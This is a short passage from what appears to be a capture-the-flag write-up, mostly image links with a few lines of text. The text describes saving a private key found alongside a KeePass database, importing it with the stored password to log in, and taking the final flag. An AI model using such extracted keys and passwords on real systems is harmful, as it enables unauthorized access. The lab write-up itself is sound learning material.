

Saving the private key we can see it have the exact same structure as the one in keepas:



This mean we can just save it as it is an import in keepas and login with it! And probably use the password from the keepass as well!

And importing the private key we can login and grab last flag:



